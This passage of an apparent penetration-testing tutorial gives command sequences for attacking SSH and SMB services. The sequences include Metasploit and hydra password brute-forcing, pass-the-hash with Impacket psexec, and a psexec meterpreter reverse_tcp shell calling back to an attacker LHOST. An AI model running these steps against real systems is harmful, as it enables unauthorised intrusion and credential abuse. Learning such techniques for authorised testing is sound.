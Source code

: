 3. **Mass-check / module in Metasploit**:

```text
# in msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target-ip>
set USERNAME vagrant
set PASS_FILE /path/to/passwords.txt
run
```

4. **If you get a shell**:

* For an interactive shell: `bash` (or `python -c 'import pty; pty.spawn("/bin/bash")'`).
* To upgrade a shell to Meterpreter: upload a Meterpreter payload/executable and run it (only in-scope targets).

---

## Targeting SMB (port 445) — enumeration → exploitation

### Enumeration

```bash
# list shares and info
smbclient -L //<target-ip> -N            # anonymous
smbclient -L //<target-ip> -U username  # with username prompt

# enumerate with smbmap
smbmap -H <target-ip> -u username -p password

# enum with enum4linux
enum4linux -a <target-ip>
```

### Brute-force user creds (if allowed)

```bash
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt smb://<target-ip>
```

### Using Impacket's psexec or Metasploit psexec

* Impacket:

```bash
# from impacket examples (psexec.py)
python3 /usr/share/doc/impacket/examples/psexec.py Administrator@<target-ip> -hashes LMHASH:NTHASH
```

* Metasploit:

```text
# in msfconsole
use exploit/windows/smb/psexec
set RHOSTS <target-ip>
set SMBUser Administrator
set SMBPass <password>
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <your-ip>
set LPORT 4444
run
```
